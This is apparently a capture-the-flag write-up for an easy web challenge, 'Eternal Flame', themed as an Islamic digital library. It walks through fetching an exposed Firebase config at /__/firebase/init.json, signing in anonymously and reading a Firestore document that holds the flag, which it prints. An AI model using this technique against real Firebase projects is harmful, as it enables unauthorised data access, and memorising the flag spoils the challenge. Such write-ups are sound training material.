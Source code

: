 # CTF Challenge Writeup: Eternal Flame

**Challenge Name:** Eternal Flame  
**Category:** Web Exploitation  
**Difficulty:** Easy  
**Author:** zeref  

## Challenge Description
Welcome to the Digital Islamic Library - Maktabat Al-Hikmah. Our scholars have preserved centuries of knowledge in the cloud. The head librarian, Sheikh Abdullah, has hidden a precious manuscript in the eternal flame of knowledge. Can you find the hidden wisdom?

**Flag:** `ghctf{th3_3t3rn4l_fl4m3_r3v34ls_h1dd3n_w1sd0m}`

---

## Vulnerability Analysis

### Exposed Firebase Configuration
The application exposes its Firebase configuration at the default path `/__/firebase/init.json`. This is a common misconfiguration where developers forget to restrict access to Firebase's reserved paths.

---

## Solution Walkthrough

### Step 1: Discovering the Firebase Configuration

The static page mentions "eternal flame" and hints at "default paths". Firebase uses a standard path for initialization:

```bash
curl http://localhost:8080/__/firebase/init.json
```

**Response:**
```json
{
  "apiKey": "AIzaSyB1kqIS-VeVk_KB4IlVE9vYBm7_7LGFrNQ",
  "authDomain": "greenhat-e5ed6.firebaseapp.com",
  "projectId": "greenhat-e5ed6",
  "storageBucket": "greenhat-e5ed6.firebasestorage.app",
  "messagingSenderId": "702590754082",
  "appId": "1:702590754082:web:b40770b4a154f30083997b",
  "measurementId": "G-550LT79K0N"
}
```

### Step 2: Understanding the Collections

The static page shows various scholar collections:
- `/scholars/imam-malik/muwatta`
- `/scholars/ibn-taymiyyah/wasitiyyah` ← This one mentions "Essential reading"
- `/scholars/imam-ahmad/musnad`
- etc.

### Step 3: Setting Up Firebase SDK

Create a simple script to connect to Firebase:

```javascript
const { initializeApp } = require('firebase/app');
const { getAuth, signInAnonymously } = require('firebase/auth');
const { getFirestore, collection, getDocs, doc, getDoc } = require('firebase/firestore');

const firebaseConfig = {
  "apiKey": "AIzaSyB1kqIS-VeVk_KB4IlVE9vYBm7_7LGFrNQ",
  "authDomain": "greenhat-e5ed6.firebaseapp.com",
  "projectId": "greenhat-e5ed6",
  "storageBucket": "greenhat-e5ed6.firebasestorage.app",
  "messagingSenderId": "702590754082",
  "appId": "1:702590754082:web:b40770b4a154f30083997b"
};

const app = initializeApp(firebaseConfig);
const auth = getAuth(app);
const db = getFirestore(app);
```

### Step 4: Anonymous Authentication

The hint in the database mentions "Anonymous access is permitted":

```javascript
const userCredential = await signInAnonymously(auth);
console.log('Signed in anonymously');
```

### Step 5: Exploring the Collections

Based on the paths shown on the page, let's explore Ibn Taymiyyah's Wasitiyyah:

```javascript
// Check the wasitiyyah collection
const wasitiyyahRef = collection(db, 'scholars', 'ibn-taymiyyah', 'wasitiyyah');
const snapshot = await getDocs(wasitiyyahRef);

snapshot.forEach((doc) => {
  console.log(doc.id, '=>', doc.data());
});
```

### Step 6: Finding the Flag

The flag is stored in a document called `flag`:

```javascript
const flagRef = doc(db, 'scholars', 'ibn-taymiyyah', 'wasitiyyah', 'flag');
const flagDoc = await getDoc(flagRef);

if (flagDoc.exists()) {
  const data = flagDoc.data();
  console.log('Flag:', data.flag);
  console.log('Message:', data.message);
}
```

**Output:**
```
Flag: ghctf{th3_3t3rn4l_fl4m3_r3v34ls_h1dd3n_w1sd0m}
Message: مبارك! You have found the hidden wisdom in the eternal flame of knowledge.
```

